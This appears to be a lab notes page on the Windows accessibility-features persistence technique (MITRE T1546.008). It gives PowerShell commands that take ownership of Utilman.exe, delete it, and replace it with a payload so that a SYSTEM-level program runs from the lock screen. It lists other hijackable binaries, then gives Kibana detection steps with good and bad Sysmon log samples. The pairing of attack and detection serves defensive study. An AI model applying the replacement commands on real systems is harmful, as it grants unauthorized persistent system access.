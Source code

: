 # [Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)

## **Exploit syntax:**

1. Get a beacon with `system` privileges. 

2. Put a payload on the victim box if it's not already present.

3. In parrot open a blank text file and paste the following commands into it and choose either to move or copy the payload on the third line then set the `<payload path>` to the payload location on the victim box
   
    ```powershell
    takeown /f c:\windows\system32\Utilman.exe /A;
	icacls c:\windows\system32\Utilman.exe /grant administrators:F;
	rm c:\windows\system32\utilman.exe;
	<move/copy> <payload path> c:\windows\system32\Utilman.exe;
    ```
4. Save the file with as` NoobNoob.ps1` to `/tmp` on parrot-vm
5. Run
	```sh
	sudo chmod +x /tmp/NoobNoob.ps1
	```

6.  In posh, run
    ```pwoershell
	pslo /tmp/NoobNoob.ps1
    ```
7. From the login lockscreen of the windows box, press the windows key and 'U'
and the payload will execute. No login is required. Should give you System privileges.   

  
### **Affected Programs**
| Description        | Executable        | Keyboard Shortcut         |
|--------------------|-------------------|---------------------------|
| Sticky Keys        | sethc.exe         | Shift 5 times             |
| On-Screen Keyboard | osk.exe           | Windows + Control + U     |
| Utility Manager    | utilman.exe       | Windows + U               |
| Display Switcher   | DisplaySwitch.exe | Windows + P               |
| App Switcher       | AtBroker.exe      | Alt + Tab                 |
| Magnifier          | Magnify.exe       | Windows + +               |
| Narrator           | Narrator.exe      | Windows + Control + Enter |


---

## **Detection Technique:**

* Observe common Windows Accessibility Features executables and verify hashes or see if the FileVersion, Description, Product, Company and OriginalFileName fields are populating in Kibana. They populate for real Windows processes
	* sethc.exe 
	* Utilman.exe
	* osk.exe
	* Narrator.exe
	* Magnify.exe
* Within Kibana ( Using winlogbeat-* indices ):
	* User processes being executed by SYSTEM instead of a basic user
	* Create a visualization to monitor those processes being executed then investigate further 
	* Verify hashes
	* See if the FileVersion, Description, Product, Company and OriginalFileName fields are populating in the message field within Kibana. They often populate for real Windows processes. Example: 

		* GOOD process 'message' field
		```
		Process Create:
		RuleName: -
		UtcTime: 2022-09-19 13:30:14.660
		ProcessGuid: {135E01F6-6EE6-6328-BC1B-020000004700}
		ProcessId: 396
		Image: C:\Windows\System32\Utilman.exe
		FileVersion: 10.0.14393.0 (rs1_release.160715-1616)
		Description: Utility Manager
		Product: Microsoft® Windows® Operating System
		Company: Microsoft Corporation
		OriginalFileName: utilman2.exe
		CommandLine: utilman.exe /debug
		CurrentDirectory: C:\Windows\system32\
		User: meetech\judah.clark
		LogonGuid: {135E01F6-26E4-631A-EDD5-0C0000000000}
		LogonId: 0xCD5ED
		TerminalSessionId: 2
		IntegrityLevel: High
		Hashes: MD5=AA765332ACD18BCCB031A55FA64D5957,				SHA256=4B4B20BB9BFCF79C2AA4EDC39C649CA6244851B95B1F3842A187450D4E		2BEBE1,IMPHASH=B73D82E52D8EE9903A01CA25EA34B629
		ParentProcessGuid: {135E01F6-26CF-631A-AE00-000000004700}
		ParentProcessId: 5300
		ParentImage: C:\Windows\System32\winlogon.exe
		ParentCommandLine: winlogon.exe
		```
		* BAD process 'message' field
		```
		Process Create:
		RuleName: -
		UtcTime: 2022-09-19 13:28:26.093
		ProcessGuid: {1D01946E-6E7A-6328-E9D4-000000004600}
		ProcessId: 2116
		Image: C:\Windows\System32\Utilman.exe
		FileVersion: -
		Description: -
		Product: -
		Company: -
		OriginalFileName: -
		CommandLine: utilman.exe /debug
		CurrentDirectory: C:\Windows\system32\
		User: NT AUTHORITY\SYSTEM
		LogonGuid: {1D01946E-AFB5-6320-E703-000000000000}
		LogonId: 0x3E7
		TerminalSessionId: 2
		IntegrityLevel: System
		Hashes: MD5=16CD0325A81BAC885909F1EAE8E5BA29,SHA256=2B100252E36FE15C9A35F1D3A6B62A0BF2E905627D0A724C0C5B2F6D73757276,IMPHASH=56866F4C89500EE85F5CA6384C952D89
		ParentProcessGuid: {1D01946E-7D4C-6324-1767-000000004600}
		ParentProcessId: 444
		ParentImage: C:\Windows\System32\winlogon.exe
		ParentCommandLine: winlogon.exe
		```
---

## **Resources**

* https://dmfrsecurity.com/2021/09/10/accessibility-features-persistence/ 
* https://www.ired.team/offensive-security/persistence/t1015-sethc

### **Execution and Detection method explained**
* https://en.it-pirate.eu/windows-defender-atp-sticky-keys-binary-hijack-detected/